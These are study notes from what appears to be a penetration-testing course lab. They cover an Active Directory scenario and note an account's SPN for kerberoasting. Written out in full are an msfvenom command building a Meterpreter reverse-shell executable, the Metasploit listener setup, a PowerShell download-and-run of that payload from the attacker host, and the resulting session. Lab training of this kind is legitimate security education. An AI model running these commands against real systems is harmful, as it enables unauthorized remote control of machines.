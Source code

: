 Examine SPN for _daniela_ via _Node Info_ menu (click on node)
![Figure 15: SPN of the user account daniela](https://static.offsec.com/offsec-courses/PEN-200/imgs/atpr/222d9f3aab250f1dc579c3fc675dd6e4-atp_svc_spn5.png)
- Notice mapped SPN:  **http/internalsrv1.beyond.com** (assume webserver running on INTERNALSRV1)
	- We could use this SPN to access INTERNALSRV1 after kerberoasting _daniela_

#### Perform network enumeration via SOCKS5 proxy
##### Tools: Nmap & CrackMapExec

Create a Meterpreter reverse shell executable file with #msfvenom
```hlt:1
kali@kali:~/beyond$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.119.5 LPORT=443 -f exe -o met.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: met.exe
```

Start _/multi/handler_ listener
```hlt:1,3,6,9,12,15,18
kali@kali:~/beyond$ sudo msfconsole -q

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set LHOST 192.168.119.5
LHOST => 192.168.119.5

msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443

msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false

msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started HTTPS reverse handler on https://192.168.119.5:443
```

Download and execute **met.exe** on CLIENTWK1
```
PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/met.exe -Outfile met.exe

PS C:\Users\marcus> .\met.exe
```

Receive incoming session in Metasploit
```
[*] Meterpreter session 1 opened (192.168.119.5:443 -> 192.168.50.242:64234) at 2022-10-11 07:05:22 -0400
```
